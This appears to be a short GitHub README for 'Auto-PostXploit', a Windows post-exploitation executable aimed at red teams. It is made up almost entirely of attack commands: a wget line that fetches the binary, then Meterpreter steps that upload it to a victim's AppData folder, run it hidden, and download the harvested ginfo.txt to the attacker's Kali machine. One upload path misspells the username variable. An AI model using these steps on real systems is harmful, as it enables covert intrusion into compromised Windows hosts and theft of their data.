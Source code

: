 # Auto-PostXploit
<b>Windows Auto Post Exploitation - For ReD Team</b>


* https://github.com/emilyanncr/Windows-Post-Exploitation/


## Download :


  - wget https://raw.githubusercontent.com/BehzaDMagzer/Auto-PostXploit/master/Auto-PostXploit.exe
 


## Usage :

  
    meterpreter > upload %path%/Auto-PostXploit.exe C:/Users/%USETNAME%/AppData
  
    meterpreter > execute -H -f C:/Users/%USERNAME%/AppData/Auto-PostXploit.exe
  
   #### If Auto-PostXploit.exe Not In Process
  
    meterpreter > download C:/Users/%USERNAME%/AppData/ginfo.txt /root/Desktop
  
    root@kali:~# cat /root/Desktop/ginfo.txt
